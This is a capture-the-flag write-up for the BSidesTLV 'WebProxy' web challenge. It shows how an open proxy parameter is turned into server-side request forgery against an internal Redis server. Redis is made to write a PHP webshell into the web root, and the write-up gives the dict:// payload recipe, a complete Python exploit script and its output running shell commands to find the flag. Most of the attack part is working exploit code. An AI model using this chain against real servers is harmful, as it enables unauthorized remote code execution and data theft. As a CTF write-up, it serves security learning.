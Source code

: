 # WebProxy
* Category: Web
* 300 Points
* Solved by the JCTF Team

## Description
> Why I got hacked!? can you help me to close this hole?
> 
> URL: https://webproxy.ctf.bsidestlv.com/?csurl=https://stackoverflow.com/questions/8318911/why-does-html-think-chucknorris-is-a-color
> 
> Note: please include the BSidesTLV cookie


## Solution

We visit the attached website, and as expected, see the proxied webpage.

Let's see what else we can find by changing the `csurl` parameter to something a bit more interesting:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy# curl https://webproxy.ctf.bsidestlv.com/?csurl=http://127.0.0.1
```

As a response, we get a table with the following content:
| Service name: | IP Address: | Port: | 
| ------------- | ----------- | ----- |
| Redis | 10.42.144.38 | 6379 |
| NGINX + PHP | 10.42.144.38 | 80 |
| NGINX + PHP | 10.42.253.181 | 80 |

So, we have a Redis DB and a PHP server on the same IP! 

Before we continue to the Redis server, let's take a look at what the PHP server is serving:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy# curl https://webproxy.ctf.bsidestlv.com/?csurl=http://10.42.144.38
<!DOCTYPE html>
<html>
<head>
        <title>NOTICE!!</title>
</head>
<body>
        <h1>Im removing my files every 10 seconds!!</h1>
</body>
</html>
```

Well, that's good to know. Makes perfect sense.

Now, back to Redis. It turns out that Redis is [very forgiving](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) when it comes to accepting commands: Redis is able to ignore a good amount of "noise" and successfully execute the commands hiding inside. In our case, the "noise" is an HTTP request.

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#ssrf-exploiting-redis) has a great recipe for exploiting this:
```
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE
```

So basically the plan is to use the recipe above to create a webshell, and then use it to find the flag.

Here's the script:
```python
import requests

IP_ADDR = "10.42.144.38"

SHELL_NAME = 'shell.php'

def send_to_proxy(csurl):
    print(f"Sending request to: '{csurl}'")
    cookies = cookies = {'BSidesTLV': '34aa0da142bb608e2be8d1b644c25bffe6fad5a5'}
    r = requests.get(f"https://webproxy.ctf.bsidestlv.com/?csurl={csurl}", cookies = cookies)
    return r.text

commands = [
    r'CONFIG SET dir /var/www/html',
    r'CONFIG SET dbfilename {}'.format(SHELL_NAME),
    r'SET mykey "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"',
    r'SAVE'
]

for command in commands:
    csurl = f"dict://{IP_ADDR}:6379/{command}"
    send_to_proxy(csurl)

print(send_to_proxy(f"http://{IP_ADDR}:80/{SHELL_NAME}?command=cat $(find / -name flag.txt)"))

```

Output:
```console
root@kali:/media/sf_CTFs/bsidestlv/WebProxy# python3 solve.py
Sending request to: 'dict://10.42.144.38:6379/CONFIG SET dir /var/www/html'
Sending request to: 'dict://10.42.144.38:6379/CONFIG SET dbfilename shell.php'
Sending request to: 'dict://10.42.144.38:6379/SET mykey2 "<\x3Fphp echo \"\\n\"; system($_GET[\'command\']); exit;\x3F>"'
Sending request to: 'dict://10.42.144.38:6379/SAVE'
Sending request to: 'http://10.42.144.38:80/shell.php?command=cat $(find / -name flag.txt)'
REDIS0006 mykey
BsidesTLV2020{55rf_Is_S0_C00l!!}
```
